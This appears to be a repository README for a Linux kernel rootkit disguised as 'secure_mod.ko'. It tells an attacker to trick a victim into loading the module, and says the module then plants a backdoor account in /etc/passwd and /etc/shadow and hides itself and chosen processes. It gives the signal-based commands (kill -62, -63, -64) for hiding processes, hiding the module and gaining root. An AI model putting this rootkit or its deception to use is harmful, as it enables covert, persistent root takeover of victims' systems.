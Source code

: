 #Linux Rootkit
###Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.
#Usage
- <h3>Install</h3>
<h4>```
        sudo insmod secure_mod.ko
```
- <h3>Hide/Unhide a Process</h3>
<h4>```
        kill -62 pid
```
- <h3>Hide/Unhide rootkit</h3>
<h4>```
        kill -63 0
```
- <h3>Get Root Priviledge</h3>
<h4>```
        kill -64 0
```
- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by```
        sudo rmmod secure_mod
```  